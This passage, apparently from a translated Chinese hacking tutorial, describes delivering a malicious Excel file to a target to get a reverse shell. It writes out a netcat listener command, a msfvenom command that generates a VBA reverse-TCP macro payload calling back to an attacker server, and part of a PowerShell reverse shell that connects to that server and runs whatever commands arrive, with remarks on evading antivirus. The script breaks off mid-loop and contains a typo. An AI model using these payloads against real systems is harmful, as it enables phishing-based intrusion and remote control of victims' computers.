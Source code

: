 我们可以向目标投送的文件类型有几种可能性。其中，可执行文件（.exe）非常令人可疑\[16\]，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的方法：一个包含恶意代码的excel电子表格，该恶意代码可以回连我们的服务器，获取要执行的命令，然后将结果发回，即反向shell。

#### 1、纯VBA

Visual Basic是一种脚本语言，可以嵌入到Office文档（Word，Excel，PowerPoint等）中，并在企业界被广泛用于大量数据处理。因此，员工习惯于在打开文档时执行宏（VBA代码）。

如果您是VBA专家，我相信您可以快速编写出一段代码，它能与我们的Front Gun服务器通信，检索要执行的命令，然后在受感染的计算机上执行它们。但是，因为VBA对我来说绝非小菜一碟，所以我将使用一个自动框架Metasploit \[17\]，该框架默认安装在Kali Linux上，提供多种工具来渗透系统、生成有效荷载payload。

由于我们首先要测试代码，因此我们使用Netcat工具在Front Gun服务器上设置了一个监听，。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。

此命令将打开端口443并等待传入连接： `root@FrontGun:~# nc -l -p 443` 接下来，我们使用Metasploit的msfvenom 用于生成恶意VBA攻击载荷：

```bash
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP  lport=443
```

这将为x86架构生成反向shell攻击负载，无需任何特殊编码（通用/无）。我们将代码复制/粘贴到Excel宏中:

![](.gitbook/assets/5.excelvbapayload.png)

如果我们检查生成的代码，就能知道它执行以下操作:

* 通过调用过程Workbook\_Open（在上图中不可见）打开文档时启动攻击负载;
* 定义一个包含执行反向连接和代码执行的实际代码的数组。它采用x86汇编语言，因此独立于所使用的语言（VBA，PowerShell等）;
* 分配一些可执行内存，然后将shell代码复制并执行。

无论使用何种语言，Metasploit几乎总是遵循这种模式来生成其有效载荷。这使得防病毒解决方案能够标记此工具生成的任何内容变得微不足道。对隐身来说完全够用了。

我们可以轻松地添加加密函数来加密保存shellcode的变量（一些方法可参见\[18\]），但让我们尝试一种较少障碍的全新方法。

#### 2、PowerShell救援

PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具 - 同样也是黑客最心爱的情妇。在这个网页上查看一些非常好的PS工具\[19\]。

和之前一样，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始。

```text
#Open a socket connection
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();

#Send shell prompt

$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

#Wait for response, execute whatever’s coming, then loop back

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path +"> ";
    $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
```